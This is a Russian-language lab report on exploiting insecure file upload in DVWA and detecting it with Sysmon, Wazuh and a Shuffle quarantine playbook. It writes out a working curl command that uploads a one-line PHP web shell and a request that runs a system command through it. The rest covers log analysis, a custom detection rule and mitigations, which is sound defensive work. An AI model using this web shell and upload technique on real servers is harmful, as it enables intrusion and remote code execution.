


# Отчёт по симуляции веб-атак: A01:2021 — Broken Access Control

В данной практической работе исследуется эксплуатация уязвимости небезопасной загрузки файлов на примере платформы DVWA и методология её поведенческого детектирования на уровне операционной системы с использованием Sysmon для Linux и SIEM Wazuh.

## 1. Сценарий атаки: Загрузка и активация веб-шелла

Атака проводилась в два этапа:
1. **Доставка нагрузки:** Отправка вредоносного PHP-скрипта через POST-запрос напрямую в форму загрузки файлов. Так как Windows Defender блокирует файл на хостовой машине, доставка выполнялась «вслепую» через сетевой поток `curl` из Kali Linux.
2. **Выполнение кода (RCE):** Прямое обращение к загруженному файлу с передачей системной команды через GET-параметр.

### Команда для загрузки веб-шелла:
```bash
curl -X POST \
  -H "Cookie: PHPSESSID=1f706ce61bfcff0c723d860e02e10778; security=low" \
  -F "uploaded=@-;filename=shell.php" \
  -F "Upload=Upload" \
  "http://192.168.1.74/vulnerabilities/upload/" <<< '<?php system($_GET["cmd"]); ?>'
```

### Команда для активации и проверки RCE:
```bash
curl -s "http://192.168.1.74/hackable/uploads/shell.php?cmd=id"
```
**Результат выполнения:**


## 2. Анализ логов сервера

Если проанализировать стандартный журнал веб-сервера Apache `/var/log/apache2/access.log`, мы увидим следующую запись:


**Вывод:** Логи веб-сервера фиксируют факт обращения к файлам и HTTP-статусы (200 OK), но они полностью скрывают контекст:
* Веб-сервер не знает, что сохраненный файл является исполняемым скриптом.
* Веб-сервер не логирует, какие именно системные команды выполнялись внутри ОС.

## 3. Расследование инцидента с помощью Sysmon и Wazuh

Почему не ловил сам момент загрузки: Когда PHP сохраняет файл, он сначала кидает его во временную папку /tmp, а потом просто переименовывает в uploads. Из-за этого Sysmon не видит классическое «создание файла». Поэтому я решил ловить не сам файл, а его запуск — момент, когда сайт начинает выполнять команды в системе.

### Этап А: Обнаружение веб-шелла (Логи Apache + Правила Wazuh)
Как только злоумышленник открывает загруженный файл в браузере, система Wazuh сразу замечает подозрительный адрес запроса и поднимает тревогу:
* **Какая это техника (MITRE ATT&CK):** `T1505.003` (Веб-шелл)
* **Какой адрес вызвал подозрение (data.url):** `/hackable/uploads/shell.php?cmd=id`


### Этап Б: Проверка запуска программ (Sysmon EventID 1)
В ту же самую секунду Sysmon на сервере `victim` замечает, что веб-сайт начал вести себя странно и запускать системные команды, чего в обычной жизни быть не должно:
* **Кто запустил:** веб-пользователь `www-data`
* **Какая это техника (MITRE ATT&CK):** `T1059.004` (Запуск командного интерпретатора/шелл)
* **Что конкретно произошло:** веб-сервер через командную оболочку `/usr/bin/dash` выполнил команду `/usr/bin/id`


## 4. Автоматическое сдерживание

Одного обнаружения мало — пока аналитик заметит тревогу, хакер успеет закрепиться в системе. Поэтому я связал Wazuh с платформой автоматизации Shuffle, чтобы сервер сам изолировал опасные файлы сразу после атаки.

### 4.1. Решение проблем

Сначала логи Sysmon прилетали в Wazuh одной сплошной строкой. Оказалось, что новая Ubuntu 24.04 пишет время в непривычном для стандартного парсера формате, и Wazuh не мог разрезать лог на отдельные поля. Я проверил строку через встроенный тест wazuh-logtest, написал кастомный декодер и добавил правило 100101, которое срабатывает каждый раз, когда веб-сервер (www-data) пытается запустить командную оболочку или системные утилиты.

### 4.2. Схема плейбука в Shuffle
При генерации алерта `rule.id: 100101` Wazuh отправляет JSON-пейлоад по вебхуку в **Shuffle**, где запускается воркфлоу реагирования:
1. **Триггер (`Webhook`):** Принимает структурированный алерт от Wazuh с распарсенными полями `data.sysmon.*`.
2. **Сдерживание и триаж (`Containment_SSH`):** Как только срабатывает правило 100101, Wazuh сразу отправляет сигнал в Shuffle. Плейбук по SSH заходит на сервер wsl-victim, забирает все загруженные .php файлы в папку карантина /tmp/quarantine/ и полностью забирает у них права на запуск (chmod 000).



### 4.3. Проверка эффективности сдерживания (Containment Proof)
Для проверки работы плейбука с машины атакующего (`kali-linux`) был загружен веб-шелл `shell.php` и выполнены два последовательных запроса с интервалом в 5 секунд:

1. **Первый запрос (`T+0 сек`):** Веб-шелл выполнил команду `id`, вернув `200 OK` (`uid=33(www-data)`), что мгновенно вызвало срабатывание правила `100101` и запуск плейбука в Shuffle.
2. **Повторный запрос (`T+5 сек`):** Попытка повторно обратиться к веб-шеллу завершилась ошибкой **`HTTP/1.1 404 Not Found`**.

Проверка директории карантина на целевом сервере подтвердила, что вредоносный скрипт изолирован и заблокирован от выполнения:



## Как защититься
1. Запретить запуск PHP-скриптов в папке uploads через настройки веб-сервера Apache.
2. Проверять не только расширение файла, но и его реальное содержимое (что это действительно картинка, а не код).
3. Не давать веб-пользователю www-data лишних прав на запись в системные папки.
